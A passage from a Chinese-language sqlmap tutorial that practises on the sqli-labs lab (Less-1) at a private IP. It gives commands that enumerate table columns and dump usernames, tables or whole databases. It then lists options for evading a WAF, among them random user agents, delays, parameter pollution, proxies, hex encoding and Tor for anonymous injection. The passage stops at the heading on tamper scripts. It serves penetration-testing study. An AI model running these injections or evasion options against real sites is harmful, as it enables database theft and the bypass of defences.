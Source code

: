 [![img](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)

### 爆出指定数据库指定表中的所有的列

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```

[![img](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)

### 爆出指定数据库指定表指定列下的数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
```

[![img](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)

### 爆出该网站数据库中的所有数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```

## Sqlmap的高级用法

Sqlmap在默认情况下除了适用CHAR()函数防止出现单引号，没有对注入的数据进行修改。我们可以使用—tamper参数对数据进行修改来绕过WAF等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过WAF的检测规则。Sqlmap目前官方提供53个绕过脚本。

### 探测指定URL是否存在WAF，并且绕过

```
--identify-waf   检测是否有WAF

#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

### 指定脚本进行绕过(—tamper)
